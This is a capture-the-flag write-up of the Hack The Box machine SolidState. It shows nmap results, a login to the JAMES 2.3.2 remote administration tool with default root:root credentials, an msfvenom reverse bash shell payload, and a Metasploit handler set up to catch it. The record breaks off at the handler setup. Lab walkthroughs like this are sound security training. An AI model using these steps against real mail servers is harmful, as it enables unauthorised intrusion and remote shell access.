 # Solidstate
#### 10.10.10.51

```{r, engine='bash', sh}
nmap -T4 -A -v 10.10.10.51

22/tcp  open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (EdDSA)
25/tcp  open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.40 [10.10.14.40]), 
80/tcp  open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp open  pop3    JAMES pop3d 2.3.2
119/tcp open  nntp    JAMES nntpd (posting ok)
```
James 2.3.2 - seems vulnerable.
=> https://www.exploit-db.com/exploits/35513/

We see that the payload in the script is actually delivered by
abusing the "James Remote Administration Tool" on port 4555 with
the standard credentials root:root.

Lets try and connect to the James Remote Administration Tool manually first.

```{r, engine='bash', sh}
root@kali:/media/sf_CTF/hackthebox.eu/Machines/SolidState# nc 10.10.10.51 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
```

Awesome, so standard credentials works for this box and we are able to deliver our payload.

So we build the payload:

```{r, engine='bash', sh}
msfvenom -p cmd/unix/reverse_bash LHOST=10.10.14.40 LPORT=9999
```

Append it to our python script.
And set up the handler with msf.

```{r, engine='bash', sh}
msf exploit(handler) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/reverse_bash
msf exploit(handler) > setg LHOST 10.10.14.40
LHOST => 10.10.14.40
msf exploit(handler) > set LPORT 9999
LPORT => 9999
msf exploit(handler) > exploit
[*] Exploit running as background job.
```
